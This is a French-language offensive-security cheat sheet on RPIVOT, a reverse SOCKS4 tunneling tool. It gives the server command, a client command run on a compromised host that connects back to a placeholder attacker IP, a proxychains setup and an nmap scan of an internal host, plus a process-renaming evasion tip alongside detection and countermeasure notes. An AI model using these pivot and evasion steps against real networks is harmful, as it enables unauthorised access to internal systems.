

## Contexte et Théorie

**RPIVOT** est un outil de tunneling SOCKS4 basé sur Python, conçu pour permettre le pivotement réseau au sein d'environnements restreints. Contrairement aux implémentations SOCKS classiques, **RPIVOT** établit une connexion inverse (reverse) depuis la machine cible vers la machine de l'attaquant. Cette approche est particulièrement efficace pour contourner les règles de pare-feu restrictives qui bloquent les connexions entrantes mais autorisent le trafic sortant.

> [!info]
> Le fonctionnement repose sur un serveur (côté attaquant) qui écoute les connexions entrantes et un client (côté cible) qui initie la connexion et expose le réseau interne via un proxy SOCKS4.

## Flux d'attaque



## Prérequis

- **Python 2.7** : RPIVOT est un outil legacy dépendant de Python 2.7. L'installation sur des systèmes modernes nécessite souvent un environnement virtualisé ou des bibliothèques spécifiques.
- **Accès initial** : Un accès shell sur la machine cible pour exécuter le script client.
- **Connectivité** : La machine cible doit pouvoir atteindre l'IP de l'attaquant sur le port configuré pour le serveur.

## Mise en œuvre

### Configuration du serveur (Attaquant)

Le serveur doit être lancé sur la machine de l'attaquant pour recevoir la connexion du client.

```bash
python2 server.py --server-port 9050 --server-ip 0.0.0.0
```

### Configuration du client (Cible)

Le client est exécuté sur la machine compromise pour initier le tunnel vers l'attaquant.

```bash
python2 client.py --server-ip <IP_ATTAQUANT> --server-port 9050
```

> [!danger]
> L'utilisation de Python 2.7 sur des systèmes cibles modernes peut être bloquée par des politiques d'exécution ou absente. Assurez-vous de vérifier la présence de l'interpréteur avec `python2 --version` avant l'exécution.

## Cas d'usage : Pivotement et Scan

Une fois le tunnel établi, le serveur RPIVOT expose un proxy SOCKS4 sur le port local 9050. Il est possible d'utiliser **Proxychains** pour diriger le trafic des outils d'énumération (Nmap, SMBClient) à travers ce tunnel.

### Configuration de Proxychains

Éditer `/etc/proxychains.conf` pour pointer vers le proxy local :

```text
[ProxyList]
socks4 127.0.0.1 9050
```

### Exécution d'outils via le tunnel

Exemple de scan Nmap sur une cible interne inaccessible directement :

```bash
proxychains nmap -sT -Pn -p 445 10.10.10.5
```

> [!warning]
> L'utilisation de `nmap -sT` (TCP Connect Scan) est obligatoire car le proxy SOCKS ne supporte pas les scans de type SYN (`-sS`).

## Limitations et OPSEC

### Limitations techniques
- **SOCKS4 uniquement** : Le protocole ne supporte pas l'authentification SOCKS5 ni le transfert UDP.
- **Stabilité** : En tant qu'outil legacy, des déconnexions peuvent survenir lors de transferts de données volumineux.
- **Dépendances** : La nécessité de Python 2.7 limite son usage sur des systèmes durcis ou récents.

### Détection et contre-mesures
- **Analyse de flux** : Les connexions persistantes vers des IP externes sur des ports non standards sont des indicateurs de compromission (IoC) classiques.
- **Processus suspects** : La présence de `python2` exécutant des scripts réseau dans des répertoires temporaires (`/tmp`, `C:\Windows\Temp`) doit être investiguée.
- **Contre-mesures** : 
    - Restreindre les connexions sortantes via des règles de pare-feu (Egress Filtering).
    - Surveiller les connexions SOCKS anormales via les logs de flux réseau (NetFlow).
    - Utiliser des solutions EDR pour détecter l'exécution de scripts Python non signés ou suspects.

> [!tip]
> Pour améliorer la discrétion, renommez le script `client.py` en un nom de processus système courant avant l'exécution, bien que cela ne masque pas l'activité réseau sous-jacente.